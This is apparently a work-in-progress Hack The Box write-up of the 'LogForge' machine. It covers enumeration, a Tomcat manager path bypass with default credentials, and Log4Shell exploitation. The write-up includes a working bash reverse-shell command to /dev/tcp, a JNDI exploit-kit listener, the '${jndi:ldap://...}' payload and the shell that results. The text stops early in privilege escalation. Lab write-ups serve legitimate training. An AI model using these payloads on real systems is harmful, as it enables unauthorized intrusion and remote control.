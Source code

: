# LogForge (WIP)

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.153
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 02:50 EDT
Nmap scan report for 10.129.96.153
Host is up (0.017s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
80/tcp   open     http
8080/tcp filtered http-proxy
```

This is a UHC Box, so it should be somewhat fun.

### Web Enum --> Proxy Bypass

Port 80 just shows a simple image:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

We can do a quick `gobuster` scan to find out more:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.96.153/ -x php,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.153/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/05/11 02:51:43 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> /images/]
/admin                (Status: 403) [Size: 278]
/manager              (Status: 403) [Size: 278]
```

The `/manager` endpoint is like Tomcat, and it does not request credentials for us to enter. We can do the bypass exploit by accessing `test/..;/manager`.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We can login with `tomcat:tomcat` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### WAR Fail

I tried to upload stuff using the standard WAR reverse shell, but it doesn't work. We would get an error message like this:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

The box name and the recent release of Log4j was a hint by the creator to try and make `log4shell` work.

### Log4j RCE

I'm following Hacktricks page on Log4Shell to execute these. We have to use these repositories to gain a shell:

{% embed url="https://github.com/pimps/JNDI-Exploit-Kit.git" %}

{% embed url="https://github.com/pimps/ysoserial-modified.git" %}

After downloading these, we have to run these commands:

{% code overflow="wrap" %}
```bash
$ java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' > shell.ser
$ java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.13:1389 -P shell.ser
```
{% endcode %}

Then, within the Tomcat interface, we just need to send this string in the XML configuration:

```
${jndi:ldap://10.10.14.13:1389/u3rmld}
```

Afterwards, we would get a shell as `tomcat`.&#x20;

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.96.153] 49842
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ 
```

From here, we can start enumerating for escalation vectors.

## Privilege Escalation

### FTP Env Leak

I noticed that FTP was open and accessible from inside the machine. Log4j can also be used to leak environment variables, so we can attempt that.&#x20;

```
tomcat@LogForge:/var/lib/tomcat9$ netstat -tulpn
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        1      0 127.0.0.1:44690         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp        0      2 10.10.11.138:49842      10.10.14.12:1337        ESTABLISHED 9577/bash           
tcp        1      0 127.0.0.1:44698         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      776/java            
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

If we analyse the process, we can see FTP is running some kind of JAR file:

```
tomcat@LogForge:/var/lib/tomcat9$ ps -ef | grep -i ftp
    993 ?        Sl     0:26 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

Let's `ftp` in on the local machine.&#x20;
